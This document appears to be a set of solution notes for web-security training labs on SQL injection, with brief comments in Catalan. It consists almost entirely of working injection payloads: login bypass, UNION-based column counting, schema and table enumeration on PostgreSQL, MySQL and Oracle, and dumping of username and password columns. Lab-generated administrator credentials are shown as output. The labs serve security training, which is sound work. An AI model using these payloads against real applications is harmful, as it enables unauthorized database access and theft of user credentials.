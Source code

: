 ## **Lab 1**: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

    /filter?category=Gifts' or 1=1-- -'

## **Lab 2**: SQL injection vulnerability allowing login bypass

    administrator'-- -

## **Lab 3**: SQL injection UNION attack, determining the number of columns returned by the query

    filter?category=Gifts' union select NULL, NULL, NULL-- -
## **Lab 4**: SQL injection UNION attack, finding a column containing text

    filter?category=Gifts' union select NULL,'1M2wiY',NULL-- -

## **Lab 5**: SQL injection UNION attack, retrieving data from other tables
1. Llistar TOTES les Bases de Dades:
        
        filter?category=Gifts' union select schema_name,NULL from information_schema.schemata-- -
2. Llistar TOTES les Taules de totes les BBDD:
        
        filter?category=Gifts' union select table_name,NULL from information_schema.tables-- -
3. Llistar TOTES les Taules d'1 BDD:
        
        filter?category=Gifts' union select table_name,NULL from information_schema.tables where table_schema='public'-- -
4. Llistar TOTES les Columnes d'una taula i una BDD en concret:
        
        filter?category=Gifts' union select column_name,NULL from information_schema.columns where table_schema='public' and table_name='users'-- -
5. Llistar Dades de diferents maneres
       
        a) filter?category=Gifts' union select NULL,group_concat(username,':',password) from users-- -
        b) filter?category=Gifts' union select NULL,group_concat(username,0x3a,password) from users-- -
            ---> Convertim els : en Hexadecimal
        c) filter?category=Gifts' union select NULL,group_concat(username,':',password) from users where username = 'admin'-- -
        d) filter?category=Gifts' union select NULL,group_concat(username,':',password) from users where username = '0x61646d696e'-- -
            ---> Convertim la paraula 'admin' en Hexadecimal

        Convertir 'admin' en Hexadecimal ==> echo "admin" | tr -d '\n' | xxd -ps

        5.1. SOLVED: filter?category=Gifts' union select username,password from users-- -
        5.2. SOLVED: filter?category=Gifts' union select NULL,username||':'||password from users-- -
              - OUTPUT: administrator:ria9b2ri5pwga9fk2s41

## **Lab 6**: SQL injection UNION attack, retrieving multiple values in a single column

    filter?category=Gifts' union select NULL,username||':'||password from users-- -
            OUTPUT: administrator/lt7elzdb9kleb4bdfy9f

## **Lab 7**: SQL injection attack, querying the database type and version on Oracle
    filter?category=Gifts' union select NULL,banner from v$version-- -

## **Lab 8**: SQL injection attack, querying the database type and version on MySQL and Microsoft
    filter?category=Lifestyle' union select NULL,@@version-- -

## **Lab 9**: SQL injection attack, listing the database contents on non-Oracle databases
    a) filter?category=Accessories' union select NULL,table_name from information_schema.tables where table_schema='public'-- -
	    OUTPUT: users_mozxmt, products
    b) filter?category=Accessories' union select column_name,NULL from information_schema.columns where table_schema='public' and table_name='users_mozxmt'-- -
	    OUTPUT: password_imfrmo, username_blbbus
    c) filter?category=Accessories' union select username_blbbus,password_imfrmo from users_mozxmt-- -
	        OUTPUT: administrator/4osd4u3aeqkfxw5z3zvk

## **Lab 10**: SQL injection attack, listing the database contents on Oracle

    a) filter?category=Gifts' union select NULL,owner from all_tables-- -
	    OUTPUT: APEX_040000, CTXSYS, MDSYS, PETER, SYS, SYSTEM, XDB
    b) filter?category=Gifts' union select NULL,table_name from all_tables where owner = 'PETER'-- -
	    OUTPUT: products, USERS_IFEEJB
    c) filter?category=Gifts' union select NULL,column_name from all_tab_columns where table_name = 'USERS_IFEEJB'-- -
	    OUTPUT: PASSWORD_HHELXQ, USERNAME_QLKZDD
    d) filter?category=Gifts' union select NULL,USERNAME_QLKZDD||':'||PASSWORD_HHELXQ from USERS_IFEEJB-- -
	    OUTPUT: administrator/l5j55i07t8chg0l6j2jd